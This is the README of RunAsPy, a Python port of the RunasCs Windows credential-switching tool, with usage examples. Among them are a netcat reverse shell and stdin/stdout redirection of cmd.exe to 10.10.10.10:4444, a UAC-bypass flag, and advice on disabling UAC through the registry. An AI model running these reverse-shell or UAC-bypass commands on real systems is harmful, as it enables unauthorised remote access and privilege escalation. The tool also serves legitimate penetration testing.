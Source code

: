# RunAsPy

A python port of [RunAsCs](https://github.com/antonioCoco/RunasCs)

*RunasPy* is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.
This tool is an improved and open version of windows builtin *runas.exe* that solves some limitations:

* Allows explicit credentials
* Works both if spawned from interactive process and from service process
* Manage properly *DACL* for *Window Stations* and *Desktop* for the creation of the new process
* Uses more reliable create process functions like ``CreateProcessAsUser()`` and ``CreateProcessWithTokenW()`` if the calling process holds the required privileges (automatic detection)
* Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no *UAC* limitations)
* Allows to bypass UAC when an administrator password is known (flag --bypass-uac)
* Allows to create a process with the main thread impersonating the requested user (flag --remote-impersonation)
* Allows redirecting *stdin*, *stdout* and *stderr* to a remote host
* It's Open Source :)

*RunasPy* has an automatic detection to determine the best create process function for every contexts.
Based on the process caller token permissions, it will use one of the create process function in the following preferred order:

1. ``CreateProcessAsUserW()``
2. ``CreateProcessWithTokenW()``
3. ``CreateProcessWithLogonW()``

## Requirements

----

Python >= 3.8

# Usage

----

## commandline

```console
usage: RunAs.py [-h] [-d [DOMAINNAME]] -u [USERNAME] -P [PASSWORD] -c [CMD ...] [-t [PROCESSTIMEOUT]]
                [-l [{2,3,4,5,8,9}]] [-f [CREATEPROCESSFUNCTION]] [-r [REMOTE]] [-p] [-b] [-i] [-v]

options:
  -h, --help            show this help message and exit
  -d [DOMAINNAME], --domain [DOMAINNAME]
  -u [USERNAME], --username [USERNAME]
  -P [PASSWORD], --password [PASSWORD]
  -c [CMD ...], --command [CMD ...]
  -t [PROCESSTIMEOUT], --timeout [PROCESSTIMEOUT]
  -l [{2,3,4,5,8,9}], --logon-type [{2,3,4,5,8,9}]
  -f [CREATEPROCESSFUNCTION], --function [CREATEPROCESSFUNCTION]
  -r [REMOTE], --remote [REMOTE]
  -p, --force-profile
  -b, --bypass-uac
  -i, --remote-impersonation
  -v, --verbose         increase verbosity
```

### Run a command as a local user

```console
Runas.py -u user1 -P password1 -c "cmd /c whoami /all"
```

### Run a command as a domain user and logon type as NetworkCleartext (8)

```console
Runas.py -u user1 -P password1 -c "cmd /c whoami /all" -d domain -l 8
```

### Run a background process as a local user,
    
```console
Runas.py -u user1 -P password1 -c "C:\tmp\nc.exe 10.10.10.10 4444 -e cmd.exe" -t 0
```

### Redirect stdin, stdout and stderr of the specified command to a remote host
   
```console
Runas.py -u user1 -P password1 -c cmd.exe -r 10.10.10.10:4444
```

### Run a command simulating the /netonly flag of runas.exe

```console
Runas.py -u user1 -P password1 -c "cmd /c whoami /all" -l 9
```

### Run a command as an Administrator bypassing UAC
    
```console
Runas.py -u adm1 -P password1 -c "cmd /c whoami /priv" --bypass-uac
```

### Run a command as an Administrator through remote impersonation

```console
Runas.py -u adm1 -P password1 -c "cmd /c echo admin > C:\Windows\admin" -l 8 --remote-impersonation
```

## programmatic (python module)

```python
import RunAsPy
config = {"username": "foo", "password": "F00", "cmd": "whoami /priv", "verbose":True, bypassUac:True}
output = RunAsPy.Runas(**config)
print(output)
```

The two processes (calling and called) will communicate through one *pipe* (both for *stdout* and *stderr*).
The default logon type is 2 (*Interactive*). 

By default, the *Interactive* (2) logon type is restricted by *UAC* and the generated token from these authentications are filtered.
You can make interactive logon without any restrictions by setting the following regkey to 0 and restart the server:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
```

Otherwise, you can try the flag **--bypass-uac** for an attempt in bypassing the token filtering limitation.

**NetworkCleartext (8)** logon type is the one with the widest permissions as it doesn't get filtered by UAC in local tokens and still allows
 authentications over the Network as it stores credentials in the authentication package. If you holds enough privileges, try to always specify this logon type through the flag --logon-type 8.

By default, the calling process (*RunasPy*) will wait until the end of the execution of the spawned process. 
If you need to spawn a background or async process, i.e. spawning a reverse shell, you need to set the parameter ``-t timeout`` to ``0``. In this case *RunasPy* won't wait for the end of the newly spawned process execution.

## Special Thanks

* [antonioCoco](https://github.com/antonioCoco) - for the RunAsCs project
* [natesubra](https://github.com/natesubra) - For the help with the UAC bypass
